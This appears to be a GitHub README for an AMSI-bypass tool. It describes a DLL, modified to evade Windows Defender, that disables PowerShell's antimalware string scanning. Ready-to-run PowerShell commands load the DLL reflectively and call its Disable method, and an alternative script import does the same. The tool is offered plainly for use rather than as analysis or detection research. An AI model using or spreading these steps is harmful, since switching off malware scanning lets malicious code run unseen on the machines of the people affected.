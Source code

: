 # AMS-BP
Bypass Powershell AMSI using a simple script.
This Script is comprised of a DLL (source file included) which when loaded and executed will disable AmsiScanString.
This DLL is based on [CyberArk Post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) with some minor changes to defeat Windows Defender and AMSI itself which now recognizes the strings inside the DLL when it is loaded.

## Usage:
__Using the DLL__
```powershell
PS C:\> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
PS C:\> [BP.AMS]::Disable()
```
__Using the .ps1 script__
```powershell
PS C:\> Import-Module .\AMSBP.ps1
PS C:\> AMSBP
```
